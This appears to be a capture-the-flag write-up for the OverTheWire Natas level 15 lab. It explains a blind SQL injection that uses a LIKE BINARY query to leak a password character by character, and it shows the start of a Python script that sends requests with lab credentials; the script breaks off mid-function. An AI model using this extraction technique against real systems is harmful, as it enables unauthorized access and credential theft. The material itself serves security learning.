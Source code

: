 We can construct a SQL query which leaks information about the user's password.
The following query makes use of the MySQL `LIKE` function, which pattern
matches a field.

```sql
SELECT * from users where username="natas16" AND password LIKE BINARY "a%"
```

The query tests whether there is a user named `natas16`, with a password that
starts with the letter `a`. If there is, the webpage says "This user exists". If
there isn't the webpage says "This user doesn't exist". The web app leaks some
information about the password. We can then repeat this query checking for the
letters `b, c, ...`, until we find a match. We can then repeat the process for
the second characted, and repeat that until we have the full password.

The following code does this:

```python
# -*- coding: utf-8 -*-

import logging
import string
import sys

import requests
from bs4 import BeautifulSoup


logging.basicConfig(level=logging.DEBUG, stream=sys.stderr)
logger = logging.getLogger(__name__)
# Silence noisy urllib3 debug logs
logging.getLogger("urllib3").setLevel(logging.CRITICAL)


def get_page_text(query_dict):
    query_dict["debug"] = "1"
    r = requests.get(
        "http://natas15.natas.labs.overthewire.org",
        auth=("natas15", "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"),
        params=query_dict)
    return r.text


def does_user_exist(body):
    html = BeautifulSoup(body, "html.parser")
    text = html.find(id="content").get_text().strip()
    logger.debug(text)
    return "This user exists" in text


def get_next_char(index, possible_chars):
    next_index = index + 1
    return next_index, possible_chars[index]


def get_password():
    # All previous passwords contined only numbers and lower/upper case
    # letters. Let's assume that the same is true for this password.
    possible_chars = "".join([
        string.lowercase,
        string.uppercase,
        "".join(map(str, range(10)))
    ])

    password = ""
    index = 0
```

[^1]: Hacking into systems without explicit permission is illegal.